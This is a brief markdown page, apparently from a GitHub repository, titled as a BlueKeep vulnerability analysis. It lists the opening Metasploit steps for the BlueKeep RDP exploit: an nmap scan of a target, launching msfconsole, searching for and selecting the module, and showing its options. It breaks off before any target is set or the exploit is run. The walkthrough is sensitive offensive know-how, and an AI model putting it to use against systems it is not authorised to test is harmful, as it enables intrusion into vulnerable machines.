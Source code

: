 # Vlunerability Analysis : BlueKeep

 ```bash
$ sudo nmap <target IP>
```
Start Metrasploit
```bash
$ msfconsole
```
Find module
```bash
$ search BlueKeep
```
```bash
use 0
```
```bash
> show options
```
